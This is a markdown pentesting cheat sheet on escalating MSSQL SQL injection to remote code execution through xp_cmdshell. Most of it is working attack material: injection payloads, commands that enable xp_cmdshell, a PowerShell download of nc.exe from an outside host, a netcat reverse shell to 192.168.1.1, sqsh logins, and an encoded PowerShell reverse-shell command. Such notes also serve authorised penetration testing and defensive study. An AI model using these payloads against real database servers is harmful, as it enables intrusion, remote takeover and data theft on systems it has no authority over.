 # MSSQL

### SQL Injection to RCE

[https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)

```
is_srvrolemember('sysadmin')
```

If it is equal to one, you can be execute xp\_cmdshell command.

```
' UNION SELECT NULL,test,NULL FROM Users; WAITFOR DELAY '0:0:5';--  - multiple queries ok.

' UNION SELECT NULL,test,NULL FROM Users; EXEC xp_cmdshell "whoami";--   - nope.

' UNION SELECT NULL,test,NULL FROM Users; EXEC sp_configure "show advanced options", 1;RECONFIGURE;EXEC sp_configure "xp_cmdshell", 1;RECONFIGURE;--

' UNION SELECT NULL,test,NULL FROM Users; EXEC master..xp_cmdshell "whoami";-- - ok.

' UNION SELECT NULL,test,NULL FROM Users; EXEC master..xp_cmdshell "powershell Invoke-WebRequest -Uri http://192.168.1.1/nc.exe -OutFile nc.exe";--  -OK

' UNION SELECT NULL,test,NULL FROM Users; EXEC master..xp_cmdshell "nc.exe -e cmd 192.168.1.1 80";-- -OK
```

### Getting RCE on MSSQL

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp\_cmdshell

xp\_cmdshell - Can only be executed by 'sa' and any other users with 'sysadmin' privileges

By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp\_configure)

If we have credentials and mssql port is open to external access, we can connect with sqsh.

```
sqsh -S 192.168.1.2 -U {USER} -P {PASS} -D {DATABASENAME(NOT REQUIRED)}
```

```
1> EXEC master..xp_cmdshell 'whoami'
2> go

Msg 15281, Level 16, State 1
Server 'TEST\SQLEXPRESS', Procedure 'master..xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell'
because this component is turned off as part of the security configuration for this
server. A system administrator can enable the use of 'xp_cmdshell' by using
sp_configure. For more information about enabling 'xp_cmdshell', search for
'xp_cmdshell' in SQL Server Online.
```

If the output like the above then you need to activate the cmdshell feature with below commands

```
1> EXEC SP_CONFIGURE 'show advanced options',1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the
RECONFIGURE statement to install.
(return status = 0)

1> EXEC SP_CONFIGURE 'xp_cmdshell',1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
```

With the above command we have configured that our SQL Server is able to execute command at the server.

```
1> xp_cmdshell 'whoami'
2> go

        output                                                                      

        ----------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
----------------

        nt authority\system                                                         

        NULL                                                                        

(2 rows affected, return status = 0)
```

To get reverse shell, we can execute powershell command.

https://www.revshells.com/ - Powershell #3 (Base64) - 192.168.1.1 - 80 - powershell

```
1> EXEC master..xp_cmdshell 'powershell -e JABjAG..........'
2> go
```
